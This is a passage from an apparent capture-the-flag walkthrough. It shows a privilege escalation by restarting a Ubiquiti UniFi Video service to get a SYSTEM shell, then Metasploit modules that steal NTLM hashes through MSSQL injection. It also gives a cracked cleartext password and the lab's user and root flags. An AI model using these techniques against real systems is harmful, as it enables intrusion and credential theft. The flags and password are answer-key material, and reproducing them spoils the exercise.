![](https://lh3.googleusercontent.com/zQvdppn-7eLQDZtRPw-bOwbXA3ymrg2T9RDlw5mk6o-EC5TOJeqkOgZKlJoWEQOcFTkfHN_sNxxFJRqVfmeWbGYhnkMljCeRaKART6IrPLkbreiRY1FjpfqG2mBveDJnSKHxZQ5F141bVnIailqPn7butx4cQ7W45ZlP9s6wj-lx7xDdh8Pp2EV5GZh8nE7sfurH4VByFEB45IaUfMQVUBBMXcnT5jRUC0mN666WuT1qYNj1NsvkHlQDC7RshDgOyJ_TYg_zpbMw0sq7UPFwfSU1DFeFIFh3kI3yRon512tU5g8NVIS81X_h4P8cLhDHZz2RP6DSP-vxNJbZPHvlWZfXakVb7yRp6R41h9jhby7ElM2kPkhukhjcqaZQVg-qqqpI_cdeT0yK7YvDIeNRJQrX_2m04xt5jJuR0m_p_VWz4fXhR85dds2muRfOO6824YvS3yV5_x3g9lKJICpnOENj4ehEcxuAGQ28wKV2YDFW2DcZ7vKFRDJVWJhTpEbcxqgZA1sf6skWAcW6VCGS5c_mMu65nQvJVcrj-cEMAjpp9QXjmhppTNvSAncaGeF89preanPTByj9SN-ZNAWNVdp5Xe22I9-ZQYvzCdPNkfYkzrTPqLEcPgGYhMJ7u92f7jYYbqLjm6B4yJCUY_-v85ZDMFJ102cLgRVKt4WjN-fUvYXXU3_YNfs=w971-h449-no)

We type Stop-Service "Ubiquiti Unifi Video" to shutdown the program
Then we use Start-Service Ubiquiti Unifi Video" to restart the program

![](https://lh3.googleusercontent.com/e_jQuZQtLd8fGFwSw4BKTjoefY7uhIGXRzxT40gNwriQOj3zLJNmMmTaDUp3hJILAcJQRK7DjwtRa-kJonN1G5AquicE6VvNW18TVoEvnW7xdC22aL2dJwQn22Y3-hp68hEV1E6_7mKYMHWmlmcBi-hBFuLyPoHpyiT8jWjpnsrKUxs5F7d6nhZvKseP5NGy8gTL3t45iNa9SIzeW22RN2x2Rxfprod8W6jy0vDi8hPT3UGjYZEzwsJRfofCrtD2_IR5lavqcxd4KP1Z-HCEH_s4EyM2DW8HD53JUqEJRh_ymsV5OFfUj7bc5hzKNxPICp1XKa3AXMvETGxsfUzWfdxTJJ2cS0MXpmhE4-n_R8X4YnbevkKhR7-Wbgl1VL9DRk1-mRufs40382MZoVu3CL0edvxuq-uEPbSRRwJBSYWktgCILK61k1Ax0_le4pEu_5LhTVBWZqpv1CCclYKWM0X0cz7pxAEzH1wZsCtmDp_agRTiPavEafOnMOOrr3rZAOcBDoLHlWHmeyBtx9wreU3_wUCR11LFhTengnQbkYo1Tli7_9OsS5tMxheIlAwwPjxFuZUJt8TcjGu6qCYGz6DbhJfgtXxkK5oa_212xuRTEPvYNJifsRFFYfQc1SGdAZQPLJdHBL_Kehl2aRp7VDFiFIce9xoOWRoMbEiyrzIWAkWTk4ji0zQ=w508-h207-no)

Finally we obtain a "NT Authority\system" shell

![](https://lh3.googleusercontent.com/zbJWz5ivbVgTGKaz2uTscNU4Pe0s4rdS9OThnsh7fMy1n9JjPgt2CGLyjZgCG9J1oW0wywx8fRtxX4iLrmBN9Ip-h1B8HlqQ0O5HiYcNMWquzDXAXJPkwyj_2EzcZGRf4rWEhoV77e9sPnqWZRlyVGxRSUF89Dc0K5HpG6BS3TZu93jJdrkw6SM5nD59vKMib0ixb4qVusSoI4Tgj2vrWNjAMxHQgUJw5phgmv7_YaIpow1b5rRcFppTCuzRNRHEtJjUclP01gvtDg44Rb_VvZ7VKbiniBC2Zmqwvpu090kXWkSXqn3SIWEsgF-Fy9I9NIvVAogDzyrnudI3ysvjxogmktRTK5o4icKm2_MDMzF-J5rgPnm93hH7zL981gPKiboM9c5UTd14bdH3A404ayyC2qhjc0-FOMN1ilD8wVdUF4Wqf8dwtd-mVJbVow-fFCsIJhV9Za_IxG20Rv5GYp3iwF2zFKN4kEpPTOKx7UZCQ9El4AyYtOcQoQAupJdmr9REHW7qVvUQeCft4wzkI2gIY-z0a6das_qjTkXVhz8KNDsVxoS-ptI5oJ6Ln-sEhWqOWdUG3W3ld1n0wrPBXBC4PZYIdzPlLgAeRRhBe7sKiRviXI8I9acj8o9CtonUGJUXCoQKrbb3uiSYOhcynGc5G5eL54lZIaX2HaKR4ntM7ylcj6fc4r8=w613-h439-no)

# Exploitation Method 2 MSF
Microsoft SQL Server SQLi NTLM Stealer
```ruby
use auxiliary/admin/mssql/mssql_ntlm_stealer_sqli
```
![](https://lh3.googleusercontent.com/Gx17xEE7q3YHkxfK7ZrYVBYW4567qoFyqHuIsg6gF-YKyN35KsitOTmB6YVo1Mb1Xyjy9wvIwR180z-b19EqVDfay6yInCOFkXzgeb3Y8xxS-hfVa1fLKVVSIwfeTROv-bMYmgvlcbNndai0SZleeKCUB1iHoC1xJoe-rcN9YdlFjn3EIABwot0upuH4LxJt-t5dfDJdorPVH71hsl0BeYOZt4gHssoArCv-Q3m3Xwg_sBOV-WtftfGb_8wvT_hVCMvDy6oUOFdHW9SQjB3ucAOcEVhuvrWw1j7XOtFRpqb6W4LLRvC0oaswFDSFd0IMI6x2wpmn5Yr_1iipSmlFHC4UzWDax6cdW55YGmCQLyb97Q4miWBmD9E6rUYLjoFA90PD7bVrUhIDkRQdSKJq7BnPFj6YaIlt2m9k9yw6Dwyyychlmml0FB8oZD0MjImafWLUcms-zVNc9_P1A3l8-eqDAryzVNoQfiHYOchkKLHYXjutmfI4aMRldbBvOw6LWRntlqvW_gqqpGdGUWbhYpQmU6xVnAXQM10Fn59w8eHbylbL4mT2XxFRmFNVCrEKMkiyE4uZM8AobJWZoEPQWYA18M35Yt5EY2iOMAXb8fTGnRdj077pJZVftiPS7PLFqjzd5iV27izi_NqYYnyf7dfAwzCkL3zz1Gj8iusnhqGU4YGeef7hThk=w698-h475-no)

SMB CAPTURE MODULE
```ruby
use auxiliary/server/capture/smb
```
USE JOHN TO CRACK THE HASHED PASSWORDS IN FORMAT:netntlmv2
```ruby
Stacy : xNnWo6272k7x 
```
# FLAGS
```ruby
Root  CF559C6C121F683BF3E56891E80641B1 
User  10C1C275385280605E96ADD808C1A0AD 
```
